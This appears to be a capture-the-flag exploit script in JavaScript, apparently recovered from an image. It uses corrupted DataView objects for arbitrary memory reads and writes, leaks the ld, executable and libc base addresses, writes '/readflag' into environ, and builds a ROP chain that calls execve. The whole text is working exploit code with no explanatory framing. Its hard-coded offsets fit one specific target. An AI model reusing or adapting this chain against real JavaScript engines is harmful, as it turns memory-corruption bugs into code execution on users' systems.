 ```js
function arb_write(addr, data, len) {
  for (let i = 0; i < len; i++) {
    pwnview.setFloat64(0x80, itof(addr + BigInt(i * 8)), true);
    pwnview.setInt32(0x88, 0xfff0, true);
    pwnview.setInt32(0xa8, 0, true);
    victimview.setFloat64(0, itof(data[i]), true);
  }
  pwnview.setInt32(0xa8, 1, true);
}

var ld = arb_read(lagos + 0x26010n) - 0x150e0n;
console.log("ld: 0x" + ld.toString(16));

var exe = arb_read(ld + 0x38588n) - 0x7470n;
console.log("exe: 0x" + exe.toString(16));

var libc = arb_read(exe + 0x1be30n) - 0x45240n;
console.log("libc: 0x" + libc.toString(16));

var environ = arb_read(libc + 0x265258n);
console.log("environ: 0x" + environ.toString(16));

var readflag = [0x6165722fn + (0x616c6664n << 32n), 0x67n];
arb_write(environ, readflag, readflag.length);

var binsh = libc + 0x1c041bn;
var pop_rdi = libc + 0x028715n;
var system = libc + 0x055230n;
var ret = libc + 0x026a3en;
var pop_rsi = libc + 0x002a671n;
var pop_rdx_rbx = libc + 0x0093359n;
var pop_rax = libc + 0x0046663n;
var syscall = libc + 0x00942b6n;

var rop = [
  ret,
  pop_rdi,
  environ,
  pop_rsi,
  0n,
  pop_rdx_rbx,
  0n,
  0n,
  pop_rax,
  0x3bn,
  syscall,
];
arb_write(environ - 0x128n, rop, rop.length);
```
